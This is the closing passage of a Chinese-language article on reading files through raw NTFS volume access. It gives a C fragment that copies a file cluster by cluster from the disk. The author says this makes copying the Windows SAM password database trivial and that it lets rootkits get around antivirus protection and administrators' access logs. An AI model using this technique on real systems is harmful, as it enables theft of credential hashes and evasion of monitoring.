 ```c
        Name[6] = 0;

        hDrive = CreateFile(Name, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, 0);

        if (hDrive != INVALID_HANDLE_VALUE){
            hFile = CreateFile(lpDstName, GENERIC_WRITE, 0, NULL, CREATE_NEW, 0, 0);
            if (hFile != INVALID_HANDLE_VALUE){
                Buff = malloc(ClusterSize);
                for (r = 0; r < ClCount; r++, FileSize -= BlockSize){
                    Offset.QuadPart = ClusterSize * Clusters[r];
                    SetFilePointer(hDrive, Offset.LowPart, &Offset.HighPart, FILE_BEGIN);
                    ReadFile(hDrive, Buff, ClusterSize, &Bytes, NULL);
                    BlockSize = FileSize < ClusterSize ? FileSize : ClusterSize;
                    WriteFile(hFile, Buff, BlockSize, &Bytes, NULL);
                }
                free(Buff);
                CloseHandle(hFile);
            }
            CloseHandle(hDrive);
        }
        free(Clusters);
    }
}
```

文章到这里其实就结束了，现在要拷贝SAM简直易如反掌:)。在配套的示例中有将SAM拷贝到命令行指定的文件中的代码。

无疑，这种方法形式简单而功能强大，但遗憾的是它有着本质上的缺陷。这种方法只能用来读取以FILE_READ_ATTRIBUTES属性打开的文件，文件不能压缩，不能加密，而且应该有自己的cluster（在NTFS下小文件可以整个放在MFT里）。同时要考虑到，在读取文件时文件可能被修改。

我想，如何与底层文件系统打交道大家都已经明白了。这个方法为rootkit提供了诸多的便利。系统里有保护文件不被修改的程序（比如说反病毒软件），但是拥有了以RAW模式打开volume的权限之后，这些就形同虚设。再有，好的管理员会在自己的server上将重要文件的读写记录入日志文件，而直接访问是逃不过日志记录的。要实现对文件的完全访问就不得不编写自己的NTFS驱动了。
